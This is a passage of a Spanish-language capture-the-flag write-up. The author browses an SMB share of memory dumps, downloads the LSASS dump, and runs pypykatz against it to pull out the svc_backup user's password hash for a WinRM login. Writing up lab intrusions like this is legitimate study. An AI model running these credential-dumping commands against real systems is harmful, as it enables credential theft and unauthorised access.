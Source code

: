 > Ipwn3dYourCompany

Sigo buscando y en la carpeta memory_analysis encuentro estos archivos .zip

```smb
smb: \memory_analysis\> ls
  .                                   D        0  Thu May 28 22:28:33 2020
  ..                                  D        0  Thu May 28 22:28:33 2020
  conhost.zip                         A 37876530  Thu May 28 22:25:36 2020
  ctfmon.zip                          A 24962333  Thu May 28 22:25:45 2020
  dfsrs.zip                           A 23993305  Thu May 28 22:25:54 2020
  dllhost.zip                         A 18366396  Thu May 28 22:26:04 2020
  ismserv.zip                         A  8810157  Thu May 28 22:26:13 2020
  lsass.zip                           A 41936098  Thu May 28 22:25:08 2020
  mmc.zip                             A 64288607  Thu May 28 22:25:25 2020
  RuntimeBroker.zip                   A 13332174  Thu May 28 22:26:24 2020
  ServerManager.zip                   A 13198331  Thu May 28 22:26:49 2020
  sihost.zip                          A 33141744  Thu May 28 22:27:00 2020
  smartscreen.zip                     A 33756344  Thu May 28 22:27:11 2020
  svchost.zip                         A 14408833  Thu May 28 22:27:19 2020
  taskhostw.zip                       A 34631412  Thu May 28 22:27:30 2020
  winlogon.zip                        A 14255089  Thu May 28 22:27:38 2020
  wlms.zip                            A  4067425  Thu May 28 22:27:44 2020
  WmiPrvSE.zip                        A 18303252  Thu May 28 22:27:53 2020

		5102079 blocks of size 4096. 1682559 blocks available
```

> Son archivos .zip de un dumpeo de memoria.

Pero el que más me llama la atencion es el lsas.zip, lsas es el Servicio de Subsistema de Autoridad de Seguridad Local.

Lo descargo ya que en el mismo podríamos encontrar credenciales 

```bash
❯ file lsass.DMP
lsass.DMP: Mini DuMP crash report, 16 streams, Sun Feb 23 18:02:01 2020, 0x421826 type
```
Es un archivo Mini DuMP, en este caso lo analizaríamos con Mimikatz ya que es capaz de sacar credenciales de la memoria, pero solo está disponible en Windows asique busqué una alternativa y encontré pypykatz.

`pip3 install pypykatz`

`❯ pypykatz lsa minidump lsass.DMP`

Me reporta mucha información, entre ella el hash del usuario svc_backup con el que compruebo si puedo acceder al sistema a través de Winrm.

